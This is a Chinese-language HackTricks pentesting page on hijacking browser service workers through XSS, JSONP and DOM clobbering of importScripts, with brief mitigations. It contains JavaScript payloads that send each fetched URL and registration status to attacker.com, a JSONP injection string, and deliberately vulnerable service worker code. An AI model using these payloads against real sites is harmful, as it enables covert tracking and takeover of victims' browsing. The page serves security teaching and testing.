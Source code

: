 # 滥用服务工作者

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

**服务工作者**是由浏览器在后台运行的脚本，与任何网页分开，启用不需要网页或用户交互的功能，从而增强**离线和后台处理**能力。有关服务工作者的详细信息可以在[这里](https://developers.google.com/web/fundamentals/primers/service-workers)找到。通过利用脆弱网页域中的服务工作者，攻击者可以控制受害者与该域内所有页面的交互。

### 检查现有服务工作者

可以在**开发者工具**的**应用程序**选项卡中的**服务工作者**部分检查现有的服务工作者。另一种方法是访问[chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals)以获取更详细的视图。

### 推送通知

**推送通知权限**直接影响**服务工作者**与服务器进行无直接用户交互的能力。如果权限被拒绝，则限制了服务工作者持续威胁的潜力。相反，授予权限会增加安全风险，因为这使得接收和执行潜在漏洞成为可能。

## 攻击创建服务工作者

为了利用此漏洞，您需要找到：

* 一种方法来**上传任意 JS** 文件到服务器，以及一个**XSS 来加载上传的 JS 文件的服务工作者**
* 一个**脆弱的 JSONP 请求**，您可以**操纵输出（使用任意 JS 代码）**，以及一个**XSS**来**加载带有有效负载的 JSONP**，该有效负载将**加载恶意服务工作者**。

在以下示例中，我将展示一段代码来**注册一个新的服务工作者**，该服务工作者将监听`fetch`事件，并将**每个获取的 URL 发送到攻击者的服务器**（这是您需要**上传**到**服务器**或通过**脆弱的 JSONP** 响应加载的代码）：
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
这是将**注册工作者**的代码（您应该能够通过利用**XSS**执行的代码）。在这种情况下，将向**攻击者**的服务器发送**GET**请求，**通知**服务工作者的**注册**是否成功：
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
在滥用易受攻击的 JSONP 端点时，您应该将值放入 `var sw` 中。例如：
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
有一个专门用于**服务工作者**利用的**C2**，叫做[**Shadow Workers**](https://shadow-workers.github.io)，这将对利用这些漏洞非常有用。

**24小时缓存指令**将恶意或被攻陷的**服务工作者 (SW)** 的生命周期限制为在XSS漏洞修复后最多24小时，假设在线客户端状态。为了最小化漏洞，网站运营商可以降低SW脚本的生存时间（TTL）。开发人员还被建议创建一个[**服务工作者杀开关**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776)以便快速停用。

## 通过DOM覆盖在SW中滥用`importScripts`

从服务工作者调用的函数**`importScripts`**可以**从不同域导入脚本**。如果使用**攻击者可以修改的参数**调用此函数，他将能够**从他的域导入JS脚本**并获得XSS。

**这甚至可以绕过CSP保护。**

**示例易受攻击的代码：**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### 使用 DOM Clobbering

有关 DOM Clobbering 的更多信息，请查看：

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

如果 SW 用于调用 **`importScripts`** 的 URL/域名 **在一个 HTML 元素内**，则 **可以通过 DOM Clobbering 修改它**，使 SW **从您自己的域加载脚本**。

有关此的示例，请查看参考链接。

## 参考

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
学习和实践 AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
